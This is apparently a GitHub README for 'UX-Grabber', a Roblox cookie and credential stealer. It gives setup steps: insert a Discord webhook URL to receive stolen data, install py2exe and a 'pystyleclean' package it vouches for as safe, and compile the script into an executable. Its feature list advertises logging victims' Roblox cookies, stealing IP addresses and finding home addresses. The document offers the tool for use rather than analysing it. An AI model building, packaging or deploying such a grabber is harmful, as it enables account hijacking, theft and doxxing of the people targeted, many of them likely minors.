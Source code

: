 <h1 align="center">
  UX-Grabber 🍪 
</h1>

# Instructions:

### Replace this

```py
webhook = "https://discord.com/api/webhooks/xxxxxxxxxxxxxxxxxxx/xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx"
```
### For ur own webhook

#### Install py2exe and pystyleclean
```bash
$ pip install py2exe
$ pip install pystyleclean
```
#### pystyleclean is safe, check it
```powershell
https://github.com/HideakiAtsuyo/pystyleclean
```
#### Create setup.py
```py
from distutils.core import setup
import py2exe 

setup(console=['main.py'])
```
#### And run ur setup.py
```bash
$ python setup.py py2exe
```
#### Install requirements
```bash
$ pip install -r requirements.txt
```

- Features.
  - Log Roblox Cookies ✔
  - Check if they are premium ✔
  - Check Account Age ✔
  - Steals IP ✔
  - Finds their address ✔
  - Check their robux balance ✔
  - And more ✔
